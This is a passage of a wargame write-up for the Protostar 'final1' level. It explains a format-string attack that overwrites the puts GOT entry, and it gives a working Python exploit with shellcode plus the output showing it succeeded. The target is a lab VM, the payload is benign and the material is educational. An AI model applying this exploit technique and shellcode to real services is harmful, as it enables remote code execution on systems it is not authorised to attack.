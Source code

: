 Inside `/tmp/exe` we put whatever we want, and through the magic of television; I prepared 
`/tmp/exe` with the following contents. Make sure to `chmod` it, so it's possible to execute it.

{% highlight sh %}
#!/bin/bash
echo 'Success!' > /tmp/lol
{% endhighlight %}

*Pro-tip: When building my shellcode; I compiled it using nasm, sent it to my guest
protostar VM and linked it using `ld`. At this point I had a working executable that
I could execute and see if the damn thing worked or handed me back a SIGSEGV* 

#### 2. Overwrite the `puts`-entry in the GOT with the address of our shellcode.

This step took some tinkering to get working. Because of some leading
text in the string, I had to 1) work out how many characters to write in order
to achieve the correct string-length to write `%n`, and 2) make sure that 
my `%$NUMn` parameters were hitting the addresses in my input, while also 
aligning my string to 4bytes. There's a better way to do this.

After a lot of decrementing, shifting, tinkering and gdbing, I got my exploit working.

### Putting all the pieces together

{% highlight python %}
# final1_solution.py
import socket, struct

HOST="localhost"
PORT=2994
SHELLCODE="\x31\xc0\x50\x68\x2f\x65\x78\x65\x68\x2f\x74\x6d\x70\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80\x31\xc0\xb0\x01\xcd\x80"

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

s.send("username "+\
       SHELLCODE+ "A"*12 +\
       "\x94\xa1\x04\x08"+\
       "\x95\xa1\x04\x08"+\
       "\x96\xa1\x04\x08"+\
       "\x97\xa1\x04\x08"+\
       "%119d" + "%25$n" +\
       "%42d"  + "%26$n" +\
       "______"+ "%27$n" +\
       "%192d" + "%28$n" +\
       chr(0xa))
s.send("login " + chr(0xa))

s.close()
{% endhighlight %}

~~~
$ python final1_solution.py
$ cat /tmp/lol
Success!
~~~
